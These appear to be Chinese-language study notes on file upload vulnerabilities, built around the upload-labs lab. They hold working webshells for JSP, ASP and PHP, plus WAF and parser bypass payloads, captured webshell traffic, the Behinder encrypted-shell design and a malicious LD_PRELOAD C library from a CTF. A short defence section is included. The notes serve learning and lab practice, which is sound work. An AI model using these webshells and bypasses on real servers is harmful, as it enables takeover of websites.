


# 文件上传漏洞

## **漏洞原理：**

- 在文件上传的功能处，若服务端脚本语言未对上传的文件进行严格验证和过滤，导致恶意用户上传恶意的脚本文件时，**获取执行服务端命令的能力**，这就是文件上传漏洞。
- 文件上传漏洞对Web应用来说是一种非常严重的漏洞。一般情况下，Web应用都会允许用户上传一些文件，如头像、附件等信息，如果Web应该没有对用户上传的文件进行有效的检查过滤，那么恶意用户就会上传一句话木马等webshell，从而达到控制web网站的目的。
- 文件上传实质上还是客户端的POST请求，消息主体是一些上传信息。前端上传页面需要指定enctype为multipart/from-data才能正常上传文件。
- 后台php或者asp都有这个漏洞，java后台如果不支持jsp页面，那么就没有这个漏洞。

## **靶机搭建**

使用搭建[upload-labs](upload-lab)靶机，可以docker一键搭建，一边靶机实战，一边学习漏洞技巧，**而且一定要看靶机的源码**。


## **一句话木马**

**一句话木马就是提供了一个代码执行的环境**  

jsp: 

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>


<!-- 使用蚁剑连接，密码ant，编码选base64-->
```

asp : `<% eval request("lzx")%>`  

aspx: `<%@ Page Language="Jscript"%><%eval(Request.Item["lzx"],"unsafe");%>`  

php : 

```php
1. <?php @eval($_POST['lzx']);?>    //提供了一个代码执行的环境
2. <script language="php">@eval_r($_POST['pwd'])</script>    7.0以上		php无效
```
## **客户端js校验绕过**
- 修改或禁用js，或者抓包修改文件后缀。
-  判断方法，没有流量经过burpsuite就提示错误
## **服务器端校验绕过**
- **服务端对数据包的MIME进行检查！**
    - 文件头content-type字段校验（image/gif）
    - 配置Burp Suite代理进行抓包，将Content-Type修改为image/gif，或者其他允许的类型。
- **服务器端检测文件名后缀**
  - **黑名单检测**
    
    - **文件名大小写绕过**：使用Asp、PhP之类的文件名绕过黑名单检测
    - **名单列表绕过**：
        - 用黑名单里没有的名单进行攻击，asp asa cer aspx。
        - jsp jspx jspf
        - php3,phtml.phps.php5,pht,可能虽然上传成功了，能解析必须满足:  
            Apache的 httpd.conf 中有如下配置代码：
            `AddType application/x-httpd-php .php .phtml .phps .php5 .phtml`
    - **上传 .htaccess 伪静态文件**，  
      （适用于黑名单检测方式，黑名单中未限制.htaccess）  
      该文件仅在Apache平台上存在，IIS平台上不存在该文件，该文件默认开启，启用和关闭在httpd.conf文件中配置。  
      该文件的写法如下：
      用伪静态需要保证：①mod_rewrite模块开启；②目录设置是AllowOverride All；
    
        ```
        <FilesMatch "liudehua"> 
        
        SetHandler application/x-httpd-php 
        
        </FilesMatch>
        ```
        该文件的意思是，只要遇到文件名中包含有"liudehua"字符串的，统一按照php文件来执行。  
        或者`AddType application/x-httpd-php `把全部文件当成php
    
    - **上传.user.ini文件**和.htaccess文件功能差不多
      
        - auto_append_file、auto_prepend_file两个配置自动包含文件，区别好像就是文件前后包含
        - 比如：auto_prepend_file=shell.gif
        - 然后会自动生成一个index.php在对应目录，index.php文件自动包含了shell.gif文件
        - 然后访问这个index.php文件
    - **win系统解析漏洞绕过**
        
        - 这些会经过字符串检测，在最后保存到服务器文件中会被windows系统自动去掉不符合规则符号，并保留前面的文件名。
        - test.asp.
        - test.asp空格
        - shell.php::$DATA 
        - shell.php::$DATA...
  
- **解析漏洞绕过**：直接上传一个注入过恶意代码的非黑名单文件即可，再利用解析漏洞利用。

##  **白名单检测**
- **0x00****截断绕过**：
    - 这里的0x00是指数据的二进制是0x00，也就是一个字节二进制全是0。同时0x00是字符串的结束标识符，攻击者可以利用手动添加字符串标识符的方式来将后面的内容进行截断。
    - 参考资料：[关于上传中的00截断分析](http://www.admintony.com/%E5%85%B3%E4%BA%8E%E4%B8%8A%E4%BC%A0%E4%B8%AD%E7%9A%8400%E6%88%AA%E6%96%AD%E5%88%86%E6%9E%90.h)
    - 0x00截断的使用条件：**PHP<5.3.29，且GPC关闭**
    - 0x00截断和文件名没有关系（是因为字符串正则匹配的时候，匹配到0x00就结束了，也就不会匹配后续的.jpg了），而是添加在上传路径上的（所以需要一个参数是路径参数，比较鸡肋，上传路径不会经过匹配）
    - 有些函数不会被0x00截断，具体哪些可以看看ctf-》php代码审计的。
    - %00和%00(urldecode)
        - 在网上常见用Burp将数据包中的%00进行urldecode的操作，那为什么要进行这一个操作？网上也常见直接放入%00就可以截断成功的案例，为什么呢？
        - 首先解释为什么要进行urldecode操作呢？其原因在于上传的表单中有一个enctype的属性，并且需要enctype="multipart/form-data" (不对表单中数据进行编码)，path大多数都是存放在表单中的，因此需要在数据包中进行urldecode操作使%00变成字符串结束符号（是因为根据urldecode的规则，%00会被解码成二进制的0x00，我们可以在burp的http数据的二进制显示页面看到(当然burp显示的是16进制的二进制表示)），我们将http的二进制改成00也是同理。
        - 那么为什么网上也有直接添加%00而不进行urldecode操作呢？因为path也可以存放在URL或者Cookie中，而在提交数据的时候，浏览器会对数据做一次urldecode的操作，而到服务端，会对数据进行一次urldecode的操作，因此如果path在非enctype=multipart/form-data的表单中或URL or Cookie中的时候，就可以直接写%00不需要进行URLdecode操作，让服务端对%00进行URL解码即可。
- 配合文件包含漏洞
- 配合解析漏洞

## **服务端文件内容检测：**
- 同时还要看检查不检查后缀名，不检查，直接一个图片马，后缀改成.php。
- 为什么图片马起作用，因为php的执行代码是<?php开头和?>结尾的，其他范围的字符串都不会搭理，所以只要php执行该图片马就能奏效。
- **图片马**
    - **图片木马制作**  
        - 命令：copy /b 1.jpg + 2.php 2.jpg   cmd命令 poweshell出错了  
        /a 指定以 ASCII 格式复制、合并文件。用于 txt 等文档类文件；  
        /b 指定以二进制格式复制、合并文件; 用于图像类/声音类文件；
        - 直接burpsuite抓上传一个普通图片的数据包，然后再在数据包末尾加上`<?php @eval($_POST['lzx']);?>`。
    - 主要是看，图片马能成功上传的后缀是什么？如果不是.php,图片马是不能解析的，因为会被当作图片去渲染，php不会去执行。
    这时候联动.htacess或.user.ini或文件包含漏洞，把该图片马当作php代码执行。
    - **配合文件包含漏洞**  
        - 需要文件包含漏洞的文件路径可控。
        - 绕过方式：（这里拿php为例，此漏洞主要存在于PHP中）
            - 先上传一个内容为木马的txt文件或者一个图片马，因为后缀名的关系没有检验内容；
            - 存在文件包含漏洞，并且路径可控，包含我们的txt或者图片马文件。这个php文件就会去引用txt文件或者图片马的内容，从而绕过校验。
- **文件加载检测**：
    - 这个是最变态的检测，检测上传的文件是一个图片。一般是调用API或者函数去进行文件加载测试，常见的是图像渲染测试，再变态一点的甚至是进行二次渲染。(一般很难遇上)
    - **绕过方法**：
        - 针对渲染加载测试：代码注入绕过
        - 针对二次渲染测试：用户提交的图片会被生成新图片，它相当于是把原本属于图像数据的部分抓了出来，再用自己的API或函数进行重新渲染在这个过程中非图像数据的部分直接就隔离开了。
        - 不过二次渲染会保留一些文件内容不会改变，所以在制作图片马之前，我们先观察二次渲染前后图片不会改变的地方（利用软件比较两张图片的二进制），将其代码写入其中即可绕过二次渲染。
- **条件竞争**
    - 对于多线程的函数的操作，不停上传，不停访问，使得在某条代码之前访问到webshell文件。
- **move_uploaded_file()**     
    - move_uploaded_file会忽略掉文件末尾的/. 所以可以构造 webshell.php/. 针对黑名单且没有过滤.
## **文件解析漏洞**

- **IIS解析漏洞：**
  - 目录解析漏洞(/test.asp/1.jpg)：
      - 在IIS5.x/6.0 中，在网站下建立文件夹的名字为*.asp、*.asa、*.cer、*.cdx的文件夹，那么其目录内的任何扩展名的文件都会被IIS当做asp文件来解释并执行。
      - 例如创建目录 test.asp，那么/test.asp/1.jpg 将被当做asp文件来执行。假设黑客可以控制上传文件夹路径，就可以不管上传后你的图片改不改名都能拿shell了
      - （如果IIS支持PHP,上传一个image.php目录,那么image.php文件夹下的文件也会被当做PHP文件解析。）
  - 文件名解析漏洞(test.asp;.jpg)：
      - 在IIS5.x/6.0 中，分号后面的不被解析，也就是说 xie.asp;.jpg 会被服务器看成是xie.asp。
      - IIS6.0默认的可执行文件除了asp还包含这两种.asa,.cer 。而有些网站对用户上传的文件进行校验，只是校验其后缀名。所以我们只要上传    *.asp;.jpg、*.asa;.jpg、*.cer;.jpg 后缀的文件，就可以通过服务器校验，并且服务器会把它当成asp文件执行。
  - 畸形解析漏洞(test.jpg/*.php)：
      - IIS7.0/7.5是对php解析时有一个类似于Nginx的解析漏洞，对任意文件名只要在URL后面追加上字符串"/任意文件名.php"就会按照php的方式去解析。
      - 在IIS7.0中，在默认Fast-CGI开启状况下，我们往图片里面写入下面的代码
      - <?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[x])?>')?>
      - 将文件保存成test.jpg格式，上传到服务器，假设上传路径为/upload，上传成功后，直接访问/upload/test.jpg/x.php，此时神奇的畸形解析开始发挥作用啦。test.jpg将会被服务器当成php文件执行，所以图片里面的代码就会被执行。我们会神奇的发现在 /upload 目录下创建了一个一句话木马文件 shell.php 。
      - 临时解决办法：设置cgi.fix_pathinfo为0
      - 这个解析漏洞和下面讲的Nginx的解析漏洞是一样的。
- **Nginx解析漏洞**
  - 畸形解析漏洞(test.jpg/*.php)：
  - %00空字节代码解析漏洞：
  - CVE-2013-4547(%20%00)：
- **Apache解析漏洞**
  - 文件名解析漏洞：
      - 一个文件名为xxx.x1.x2.x3的文件（例如：index.php.fuck），Apache会从x3的位置往x1的位置开始尝试解析，如果x3不属于Apache能解析的扩展名，那么Apache会尝试去解析x2的位置，这样一直往前尝试，直到遇到一个能解析的扩展名为止。
      - 总结存在该漏洞的Apache版本：  
          Apache2.0.x<=2.0.59  
          Apache2.2.x<=2.2.17  
  - .htaccess文件：
## waf绕过
- **填充垃圾信息**：有些主机WAF软件为了不影响web服务器的性能，会对校验的用户数据设置大小上限，比如1M。此种情况可以构造一个大文件，前面1M的内容为垃圾内容，后面才是真正的木马内容，便可以绕过WAF对文件内容的校验；
- 有些WAF的规则是：如果数据包为POST类型，则校验数据包内容。此种情况可以上传一个POST型的数据包，抓包将POST改为GET。然后仍然传输POST的数据。
- 打乱字符；编码技术；拆分组合；创建，匹配。
- 换行，把payload放在分界线前面
```
Content-Disposition: form-data; name="file"; filename="1.p hp" 

Content-Type: image/jpeg 

 

<?php @eval($_POST[1])?> 

-----------------------------127619278770


Content-Disposition: form-data; name="file"; filename=="2.php" 多个等号(不止2，3个)
 Content-Type: image/jpeg
 <?php @eval($_POST[1])?>
 -----------------------------127619278770
```
- 如果只是内容匹配到了<php?可以使用js来设置代码处于php环境中  
`<script language="php">phpinfo();</script>`

## **文件上传防御**
1. 关掉上传文件的功能
2. **文件上传的目录设置为不可执行**只要web容器无法解析该目录下面的文件，即使攻击者上传了脚本文件，服务器本身也不会收到影响，因此这一点至关重要。
3. 限制能够上传的文件大小，防止服务器瘫痪
4. 检查上传文件的类型
5. 检查上传文件的内容
6. 上传的文件不要保存在公开的文件夹内，以避免被黑客直接读取。另外将文件的路径隐藏起来，或是将文件名称改成没有扩展名的随机文件名，都可以增加上传文件的安全性。

## webshell连接工具/原理
> 分析webshell作用的原理以及webshell工具的流量  
我们知道一句话木马就是提供一个代码执行的环境  
大概了解就行，具体的webshell工具发送的php代码可以不用看，因为太复杂了。

- 中国菜刀（挺古老的）


### 蚁剑:

- 蚁剑能使用的webshell：
    - 待补充
- 本地测试，一句话木马`<?php @eval($_POST['liudehua'])?>`,使用burp抓取蚁剑的http包（设置好蚁剑的代理为burp监听的端口,测试完记得改回来），用wireshark也可以。
- 当我们输出好参数测试webshell连接的时候。
    - 蚁剑发送的http包为
        ```http
            POST /upload-labs/shell.php HTTP/1.1
            Host: test.com:38888
            Accept-Encoding: gzip, deflate
            User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 1489
            Connection: close
        
            liudehua=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3B%24opdir%3D%40ini_get(%22open_basedir%22)%3Bif(%24opdir)%20%7B%24oparr%3Dpreg_split(%22%2F%5C%5C%5C%5C%7C%5C%2F%2F%22%2C%24opdir)%3B%24ocwd%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3B%24tmdir%3D%22.e161c88fac4%22%3B%40mkdir(%24tmdir)%3B%40chdir(%24tmdir)%3B%40ini_set(%22open_basedir%22%2C%22..%22)%3Bfor(%24i%3D0%3B%24i%3Csizeof(%24oparr)%3B%24i%2B%2B)%7B%40chdir(%22..%22)%3B%7D%40ini_set(%22open_basedir%22%2C%22%2F%22)%3B%40rmdir(%24ocwd.%22%2F%22.%24tmdir)%3B%7D%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%22542f7e%22.%2264b3bd%22%3Becho%20%40asenc(%24output)%3Becho%20%2200%22.%22493%22%3B%7Dob_start()%3Btry%7B%24D%3Ddirname(%24_SERVER%5B%22SCRIPT_FILENAME%22%5D)%3Bif(%24D%3D%3D%22%22)%24D%3Ddirname(%24_SERVER%5B%22PATH_TRANSLATED%22%5D)%3B%24R%3D%22%7B%24D%7D%09%22%3Bif(substr(%24D%2C0%2C1)!%3D%22%2F%22)%7Bforeach(range(%22C%22%2C%22Z%22)as%20%24L)if(is_dir(%22%7B%24L%7D%3A%22))%24R.%3D%22%7B%24L%7D%3A%22%3B%7Delse%7B%24R.%3D%22%2F%22%3B%7D%24R.%3D%22%09%22%3B%24u%3D(function_exists(%22posix_getegid%22))%3F%40posix_getpwuid(%40posix_geteuid())%3A%22%22%3B%24s%3D(%24u)%3F%24u%5B%22name%22%5D%3A%40get_current_user()%3B%24R.%3Dphp_uname()%3B%24R.%3D%22%09%7B%24s%7D%22%3Becho%20%24R%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B  
        ```
    - 返回响应包为
        ```http
        HTTP/1.1 200 OK
        Date: Mon, 29 Nov 2021 02:36:52 GMT
        Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
        X-Powered-By: PHP/7.0.9
        Connection: close
        Content-Type: text/html; charset=UTF-8
        Content-Length: 117
        
        542f7e64b3bdD:/app/phpstudy_pro/WWW/upload-labs	C:D:	Windows NT jack 10.0 build 22000 (Windows 10) AMD64	rose00493  
        ```
    - 通过分析上述两个数据包，可以知道，蚁剑通过传入`echo "542f7e"."64b3bd"`代码，然后匹配返回包中有没有542f7e64b3bd来判断有没有代码执行环境，也就是有没有webshell，同时还`echo "00"."493"`;当然这些数字每次都是随机的。
- 其他包括文件上传，目录遍历，打开终端，运行命令，待补充。

### 冰蝎（Behinder）：

> https://github.com/rebeyond/Behinder

- 基于Java开发的动态二进制加密通信流量的新型Webshell客户端，由于它的通信流量被加密，使用传统的WAF、IDS等设备难以检测，

#### webshell攻防

- 最初的一句话木马真的只有一句话，比如eval(request(“cmd”))，后续为了躲避查杀，出现了很多变形。无论怎么变形，其本质都是用有限的尽可能少的字节数，来实现无限的可任意扩展的功能。

-  一句话木马从最早的<%execute(request(“cmd”))%>到现在，也有快二十年的历史了。客户端工具也从最简单的一个html页面发展到现在的各种GUI工具。但是近些年友军也没闲着，涌现出了各种防护系统，这些防护系统主要分为两类：一类是基于主机的，如Host based IDS、安全狗、D盾等，基于主机的防护系统主要是通过对服务器上的文件进行特征码检测；另一类是基于网络流量的，如各种云WAF、各种商业级硬件WAF、网络防火墙、Net Based IDS等，基于网络的防护设备其检测原理是对传输的流量数据进行特征检测，目前绝大多数商业级的防护设备皆属于此种类型。一旦目标网络部署了基于网络的防护设备，我们常用的一句话木马客户端在向服务器发送Payload时就会被拦截，这也就导致了有些场景下会出现一句话虽然已经成功上传，但是却无法连接的情况。

- 为什么会被拦截：

    - 在讨论怎么绕过之前，先分析一下我们的一句话客户端发送的请求会被拦截？

    - 我们以菜刀为例，来看一下payload的特征，如下为aspx的命令执行的payload：

        - ```asp
            caidao=Response.Write("->|");
            var err:Exception;try{eval(System.Text.Encoding.GetEncoding(65001).GetString(System. Convert.FromBase64String("dmFyIGM9bmV3IFN5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzU3RhcnRJbmZvKFN5c3RlbS5UZXh0LkVuY29kaW5nLkdldEVuY29kaW5nKDY1MDAxKS5HZXRTdHJpbmcoU3lzdGVtLkNvbnZlcnQuRnJvbUJhc2U2NFN0cmluZyhSZXF1ZXN0Lkl0ZW1bInoxIl0pKSk7dmFyIGU9bmV3IFN5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzKCk7dmFyIG91dDpTeXN0ZW0uSU8uU3RyZWFtUmVhZGVyLEVJOlN5c3RlbS5JTy5TdHJlYW1SZWFkZXI7Yy5Vc2VTaGVsbEV4ZWN1dGU9ZmFsc2U7Yy5SZWRpcmVjdFN0YW5kYXJkT3V0cHV0PXRydWU7Yy5SZWRpcmVjdFN0YW5kYXJkRXJyb3I9dHJ1ZTtlLlN0YXJ0SW5mbz1jO2MuQXJndW1lbnRzPSIvYyAiK1N5c3RlbS5UZXh0LkVuY29kaW5nLkdldEVuY29kaW5nKDY1MDAxKS5HZXRTdHJpbmcoU3lzdGVtLkNvbnZlcnQuRnJvbUJhc2U2NFN0cmluZyhSZXF1ZXN0Lkl0ZW1bInoyIl0pKTtlLlN0YXJ0KCk7b3V0PWUuU3RhbmRhcmRPdXRwdXQ7RUk9ZS5TdGFuZGFyZEVycm9yO2UuQ2xvc2UoKTtSZXNwb25zZS5Xcml0ZShvdXQuUmVhZFRvRW5kKCkrRUkuUmVhZFRvRW5kKCkpOw%3D%3D")),"unsafe");}catch(err){Response.Write("ERROR:// "%2Berr.message);}Response.Write("|<-");Response.End();&z1=Y21k&z2=Y2QgL2QgImM6XGluZXRwdWJcd3d3cm9vdFwiJndob2FtaSZlY2hvIFtTXSZjZCZlY2hvIFtFXQ%3D%3D
            ```

    - 可以看到，虽然关键的代码采用了base64编码，但是payload中扔有多个明显的特征，比如有eval关键词，有Convert.FromBase64String，有三个参数，参数名为caidao（密码字段）、z1、z2，参数值有base64编码。针对这些特征很容易写出对应的防护规则，比如：POST请求中有Convert.FromBase64String关键字，有z1和z2参数，z1参数值为4个字符，z2参数值为base64编码字符。

- 被动的防御

    - 当然这种很low的规则，绕过也会很容易，攻击者只要自定义自己的payload即可绕过，比如把参数改下名字即可，把z1，z2改成z9和z10。不过攻击者几天后可能会发现z9和z10也被加到规则里面去了。再比如攻击者采用多种组合编码方式进行编码，对payload进行加密等等，
    - 不过对方的规则也在不断的更新，不断识别关键的编码函数名称、加解密函数名称，并加入到规则里面。于是攻击者和防御者展开了长期的较量，不停的变换着各种姿势……

- 加密攻击

    - 其实防御者之所以能不停的去更新自己的规则，主要是因为两个原因：
        - 1.攻击者发送的请求都是脚本源代码，无论怎么样编码，仍然是服务器端解析引擎可以解析的源代码，是基于文本的，防御者能看懂。
        - 2.攻击者执行多次相同的操作，发送的请求数据也是相同的，防御者就可以把他看懂的请求找出特征固化为规则。
    - 试想一下，如果攻击者发送的请求不是文本格式的源代码，而是编译之后的字节码（比如java环境下直接向服务器端发送class二进制文件），字节码是一堆二进制数据流，不存在参数；攻击者把二进制字节码进行加密，防御者看到的就是一堆加了密的二进制数据流；**攻击者多次执行同样的操作，采用不同的密钥加密，即使是同样的payload，防御者看到的请求数据也不一样，这样防御者便无法通过流量分析来提取规则。**
    - SO，这就是我们可以一劳永逸绕过waf的思路，具体流程如下：
        - 首次连接一句话服务端时，客户端首先向服务器端发起一个GET请求，服务器端随机产生一个128位的密钥，把密钥回显给客户端，同时把密钥写进服务器侧的Session中。
        - 客户端获取密钥后，对本地的二进制payload先进行AES加密，再通过POST方式发送至服务器端。
        - 服务器收到数据后，从Session中取出秘钥，进行AES解密，解密之后得到二进制payload数据。
        - 服务器解析二进制payload文件，执行任意代码，并将执行结果加密返回。
        - 客户端解密服务器端返回的结果。
    - 如下为执行流程图：
        - 

#### 如何实现jsp的加密

- 服务端实现

    - 想要直接解析已经编译好的二进制字节流，实现我们的绕过思路，现有的Java一句话木马无法满足我们的需求，因此我们首先需要打造一个新型一句话木马：

    - #####  服务器端动态解析二进制class文件：

        - 首先要让服务端有动态地将字节流解析成Class的能力，这是基础。
            正常情况下，Java并没有提供直接解析class字节数组的接口。不过classloader内部实现了一个protected的defineClass方法，可以将byte[]直接转换为Class
        - 然后将恶意代码写到构造函数里面，类生成实例就会执行恶意代码
        - 到此，我们就可以直接动态解析并执行编译好的class字节流了。

    - ##### 生成密钥：

        - 首先检测请求方式，如果是带了密码字段的GET请求，则随机产生一个128位的密钥，并将密钥写进Session中，然后通过response发送给客户端，代码如下：

            - ```
                if (request.getMethod().equalsIgnoreCase("get")) {
                    String k = UUID.randomUUID().toString().replace("-","").substring(0, 16);
                    request.getSession().setAttribute("uid", k);
                    out.println(k);
                    return;
                }
                ```

        - 这样，后续发送payload的时候只需要发送加密后的二进制流，无需发送密钥即可在服务端解密，这时候waf捕捉到的只是一堆毫无意义的二进制数据流。

    - ##### 解密数据，执行：

        - 当客户端请求方式为POST时，服务器先从request中取出加密过的二进制数据（base64格式），代码如下：

            -  ```
                 Cipher c = Cipher.getInstance("AES/ECB/PKCS5Padding");
                 c.init(Cipher.DECRYPT_MODE,new SecretKeySpec(request.getSession().getAttribute("uid").toString().getBytes(), "AES"));
                 new Myloader().get(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().toString();
                 ```

        - ##### 改进一下

            - 前面提到，我们是通过重写Object类的toString方法来作为我们的Payload执行入口，这样的好处是我们可以取到Payload的返回值并输出到页面，但是缺点也很明显：在toString方法内部没办法访问Request、Response、Seesion等servlet相关对象。所以需要找一个带有入参的方法，并且能把Request、Response、Seesion等servlet相关对象传递进去。

- 客户端实现

    - ##### 远程获取加密密钥：

        - 客户端在运行时，首先以GET请求携带密码字段向服务器发起握手请求，获取此次会话的加密密钥和cookie值。加密密钥用来对后续发送的Payload进行AES加密；上文我们说到服务器端随机产生密钥之后会存到当前Session中，同时会以set-cookie的形式给客户端一个SessionID，客户端获取密钥的同时也要获取该cookie值，用来标识客户端身份，服务器端后续可以通过客户端传来的cookie值中的sessionId来从Session中取出该客户端对应的密钥进行解密操作。

    - ##### 动态生成class字节数组：

        - 我们只需要把payload的类写好一起打包进客户端jar包，然后通过ASM框架从jar包中以字节流的形式取出class文件即可，如下是一个执行系统命令的payload类的代码示例：

    - ##### 已编译类的参数化

        - 上述示例中需要执行的命令是硬编码在class文件中的，因为class是已编译好的文件，我们总不能每执行一条命令就重新编译一次payload。那么怎么样让Payload接收我们的自定义参数呢？直接在Payload中用request.getParameter来取？当然不行，因为为了避免被waf拦截，我们淘汰了request参数传递的方式，我们的request body就是一堆二进制流，没有任何参数。在服务器侧取参数不可行，那就从客户端侧入手，在发送class字节流之前，先对class进行参数化，在不需要重新编译的情况下向class文件中注入我们的自定义参数，这是比较关键的一步。这里我们要使用ASM框架来动态修改class文件中的属性值

    - ##### 加密payload：

        - 利用步骤1中获取的密钥对payload进行AES加密，然后进行Base64编码

    - ##### 发送payload，接收执行结果并解密：

        - Payload加密之后，带cookie以POST方式发送至服务器端，并将执行结果取回，如果结果是加密的，则进行AES解密。

#### 客户端

> https://xz.aliyun.com/t/2799

- Socks代理功能
    -  冰蝎客户端给我们本地开了一个代理端口，然后我们的本地的工具流量可以发送到webshell，然后服务器代理这个数据包。

### 哥斯拉（Godzilla）：

- 哥斯拉是一款继冰蝎之后又一款于Java开发的加密通信流量的新型Webshell客户端，内置了3种有效载荷以及6种加密器，6种支持脚本后缀，20个内置插件

## 绕过disable_function
> 当我们使用蚁剑的时候，发现有些功能没法用，比如执行命令，就表示有些php函数被禁止了，没法用了。

### LD_PRELOAD环境变量绕过

参考[ctfshow_php的恶意so绕过](https://www.bilibili.com/video/BV1XT4y1h7Th?spm_id_from=333.337.search-card.all.click)

[p牛的环境变量注入](https://tttang.com/archive/1450/)

[深入分析 LD_PRELOAD](https://forum.butian.net/share/1493)

**LD_PRELOAD**

*   **介绍**

    LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime  linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

    **LD_PRELOAD，是个环境变量，用于动态库的加载，而动态库加载的优先级最高，因此我们可以抢先在正常函数执行之前率先执行我们的用代码写的函数**

*   **使用**

    **编写方法1**

    1.  定义一个函数，函数的名称、变量及变量类型、返回值及返回值类型都要与要替换的函数完全一致。这就要求我们在写动态链接库之前要先去翻看一下对应手册等。
    2.  将所写的 c 文件编译为动态链接库。
    3.  对 LD_PRELOAD 及逆行设置，值为库文件路径，接下来就可以实现对目标函数原功能的劫持了
    4.  结束攻击，使用命令 unset LD_PRELOAD 即可

    **编写方法2**

    **使用ext_skel框架开发php拓展**

    ```css
    php ext_skel.php --ext_skel.php --ext hello --author sunct --std
    ```

    再进入扩展目录修改c代码就行

    **编写方法3**

    最简单的是利用在 GCC 中有一个 C 语言的扩展修饰符 `__attribute__((constructor))` ，这个修饰符可以让由它修饰的函数在 main() 之前执行，如果它出现在我们的动态链接库中，那么我们的动态链接库文件一旦被系统加载就将立即执行`__attribute__((constructor))` 所修饰的函数。

    ```php
    //题目代码
    <?php
    foreach($_REQUEST['envs'] as $key => $val) {
        putenv("{$key}={$val}");//设置环境变量
    }
    //... 一些其他代码
    system('echo hello');
    ?>
    ```

    *   **有上传点时**

        直接上传个so文件，如hack.so，再通过`LD_PRELOAD=/var/www/html/uploads/hack.so`,来优先加载我们编写的恶意动态链接库

        如2022虎符ctf的ezphp   wp中c文件

        题目可以在https://www.wolai.com/4X2FgV1HkxcBYBRZT31T4F中的文件复现

        ```c
        #include <stdlib.h>
        #include <stdio.h>
        #include <string.h>
        
        __attribute__ ((__constructor__)) void preload (void){
          unsetenv("LD_PRELOAD");
          system("id");
          system("cat /flag > /var/www/html/flag");
        }
        ```

    *   **无上传点**

        *   **Nginx利用**

            Nginx对于请求的body内容会以临时文件的形式存储起来

